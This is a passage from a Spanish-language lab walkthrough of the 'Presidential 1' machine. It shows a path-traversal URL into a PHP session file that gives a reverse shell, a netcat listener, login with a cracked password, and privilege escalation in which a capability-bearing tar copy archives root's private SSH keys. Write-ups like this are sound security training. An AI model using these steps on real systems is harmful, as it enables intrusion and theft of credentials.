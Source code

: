 ![presidential1_13](/assets/img/presidential1/PRESIDENTIAL 1-1745836460009.png){: w="1435" h="807" }

Como aparece en el *screenshot* señalado, me tengo que copiar la *cookie* de sesión actual, ya que una vez cargada la instrucción en el sistema, tengo que incluirla al final de la línea de la **URL** para obtener la *reverse shell**. En el navegador escribí lo siguiente;

```
http://datasafe.votenow.local/server_sql.php/../../../../../../../../var/lib/php/sessions/sess_7pqcddrc9v73086tmpo3ed4vu5o7gq1d
```

Y antes de darle a intro, me puse en escucha desde mi equipo de atacante;

```bash
nc -nlvp 443
```

Una vez preparado, ya introducí la *URL* anterior desde el navegador, y en mi consola obtuve la *shell* con el usuario `apache`;

![presidential1_14](/assets/img/presidential1/PRESIDENTIAL 1-1745836102088.png){: w="1419" h="158" }

Voy a probar autenticándome como el usuario; (`admin`) con la contraseña que rompí antes en el *hash*; (`Stella`), y así empezar con la escalada de privilegios;

![presidential1_15](/assets/img/presidential1/image 1.png){: w="1435" h="114" }

---

## Escalada de privilegios

Voy a buscar de forma recursiva en el sistema posibles archivos con capacidades especiales asignadas;

```bash
getcap -r / 2>/dev/null
```

![presidential1_16](/assets/img/presidential1/PRESIDENTIAL 1-1746032684726.png){: w="1435" h="140" }

De los que aparecen, me llama la atención el binario; (`tarS`), ya que parece una versión de la herramienta de descompresión `tar`... También realizo la búsqueda de *binarios* con permisos de escritura, y me aparece de nuevo;

```bash
find / -writable 2>/dev/null | grep "/bin"
```

![presidential1_17](/assets/img/presidential1/image-2 1.png){: w="1435" h="53" }

Pruebo a utilizar el *binario* para intentar comprimir en mi directorio actual las claves privadas del usuario; (`root`) en un archivo al que llamo; (`id_rsa.tar`), y aparentemente, no me da ningún error:

![presidential1_18](/assets/img/presidential1/PRESIDENTIAL 1-1746025229593.png){: w="1435" h="92" }
